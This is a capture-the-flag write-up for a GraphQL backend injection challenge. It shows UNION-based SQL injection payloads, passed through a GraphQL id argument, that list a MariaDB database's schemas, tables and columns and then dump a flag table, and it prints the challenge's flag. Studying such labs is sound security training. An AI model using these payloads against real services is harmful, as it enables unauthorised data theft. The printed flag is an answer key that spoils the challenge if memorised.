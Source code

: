 ```yaml
---
layout: default
title: GraphQL-Backend-injection
---
```


In this challenge, I learned to use [InQL - GraphQL Scanner](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f), an extension for Burp Suite that is very helpful with `GraphQL`.

The idea in this challenge is to exploit injection in the backend, in our case we can find simple `SQL Injection`.

First, I used `InQL` to scrap the table, we can easily send this query for the repeater.

![inQL](./images/GraphQL-Backend-injection_inQL.png)

The query we sends it's:
```gql
query rocket {
    rocket(id: "1") {
        country
        id
        is_active
        name
    }
}
```

However, if we supply instead of `"1"`, this input: `"50 union select (select 'BLA'),'1','1','1'"`, we can get the `SQLi`.

So, this will be our payload:
```gql
query rocket {
    rocket(id: "50 union select (select 'BLA'),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```
And as you can see, we get the `BLA` back in the results.

![simple SQLi](./images/GraphQL-Backend-injection_simple_sqli.png)

Note, I've detected this is `MariaDB` using the error messages I got, we giving `"1 ' "`, same for the number of columns I need to supply.

Now, we need to find the flag:

#### Schema
```sql
select group_concat(schema_name) from information_schema.SCHEMATA
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(schema_name) from information_schema.SCHEMATA),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
information_schema,graphql_db,secret_db
```

![schema](./images/GraphQL-Backend-injection_schema.png)

#### Tables
```sql
select group_concat(table_name) from information_schema.tables where table_schema='secret_db'
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(table_name) from information_schema.tables where table_schema='secret_db'),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
flag
```

![table](./images/GraphQL-Backend-injection_table.png)

#### Columns
```sql
select group_concat(column_name) from information_schema.columns where table_name='flag'
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(column_name) from information_schema.columns where table_name='flag'),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
id,value
```

![column](./images/GraphQL-Backend-injection_column.png)

#### FLAG
```sql
select group_concat(id,'~~~~~',value) from secret_db.flag
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(id,'~~~~~',value) from secret_db.flag),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
1~~~~~RM{y3s_y0u_can_1nj3ct_SQL_1n_gr@phql}
```

![FLAG](./images/GraphQL-Backend-injection_FINAL.png)

**Flag:** **_`RM{y3s_y0u_can_1nj3ct_SQL_1n_gr@phql}`_**
